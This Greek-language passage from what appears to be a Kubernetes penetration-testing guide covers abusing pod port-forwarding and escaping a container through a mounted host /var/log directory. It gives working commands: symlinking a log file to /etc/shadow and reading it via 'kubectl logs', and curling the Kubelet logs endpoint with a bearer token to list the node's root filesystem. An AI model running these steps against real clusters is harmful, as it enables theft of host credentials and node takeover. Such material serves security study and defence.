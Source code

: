 Αυτή η άδεια επιτρέπει τη **προώθηση ενός τοπικού θύρας σε μια θύρα στο συγκεκριμένο pod**. Αυτό έχει σκοπό να επιτρέψει την εύκολη αποσφαλμάτωση εφαρμογών που εκτελούνται μέσα σε ένα pod, αλλά ένας επιτιθέμενος μπορεί να το καταχραστεί για να αποκτήσει πρόσβαση σε ενδιαφέρουσες (όπως ΒΔ) ή ευάλωτες εφαρμογές (ιστούς;) μέσα σε ένα pod:
```
kubectl port-forward pod/mypod 5000:5000
```
### Εκτέλεση Απόδρασης στο /var/log/ των Κεντρικών Υπολογιστών

Όπως [**υποδεικνύεται σε αυτή την έρευνα**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html), αν μπορείτε να έχετε πρόσβαση ή να δημιουργήσετε ένα pod με το **σημείο πρόσβασης των κεντρικών υπολογιστών `/var/log/` προσαρτημένο** σε αυτό, μπορείτε να **αποδράσετε από το container**.\
Αυτό συμβαίνει βασικά επειδή όταν το **Kube-API προσπαθεί να λάβει τα αρχεία καταγραφής** ενός container (χρησιμοποιώντας το `kubectl logs <pod>`), ζητά το αρχείο `0.log` του pod χρησιμοποιώντας το τέλειο `/logs/` της υπηρεσίας **Kubelet**.\
Η υπηρεσία Kubelet εκθέτει το τέλειο `/logs/` το οποίο ουσιαστικά **εκθέτει το σύστημα αρχείων `/var/log` του container**.

Συνεπώς, ένας επιτιθέμενος με **πρόσβαση εγγραφής στον φάκελο /var/log/** του container θα μπορούσε να εκμεταλλευτεί αυτή τη συμπεριφορά με δύο τρόπους:

* Τροποποιώντας το αρχείο `0.log` του container του (συνήθως βρίσκεται στο `/var/logs/pods/namespace_pod_uid/container/0.log`) ώστε να είναι ένα **σύμβολο σύνδεσης προς το `/etc/shadow`** για παράδειγμα. Έπειτα, θα μπορείτε να εξαγάγετε το αρχείο σκιάς των κεντρικών υπολογιστών κάνοντας:
```bash
kubectl logs escaper
failed to get parse function: unsupported log format: "root::::::::\n"
kubectl logs escaper --tail=2
failed to get parse function: unsupported log format: "systemd-resolve:*:::::::\n"
# Keep incrementing tail to exfiltrate the whole file
```
* Εάν ο επιτιθέμενος ελέγχει οποιονδήποτε κύριο με τα **δικαιώματα για ανάγνωση του `nodes/log`**, μπορεί απλά να δημιουργήσει ένα **σύμβολο σύνδεσης** στο `/host-mounted/var/log/sym` προς το `/` και όταν **έχει πρόσβαση στο `https://<gateway>:10250/logs/sym/` θα εμφανίσει το ριζικό σύστημα των κόμβων** (η αλλαγή του συμβόλου σύνδεσης μπορεί να παρέχει πρόσβαση σε αρχεία).
```bash
curl -k -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Im[...]' 'https://172.17.0.1:10250/logs/sym/'
<a href="bin">bin</a>
<a href="data/">data/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="init">init</a>
<a href="lib">lib</a>
[...]
```
**Ένα εργαστήριο και ένα αυτοματοποιημένο exploit μπορεί να βρεθεί στο** [**https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts**](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts)
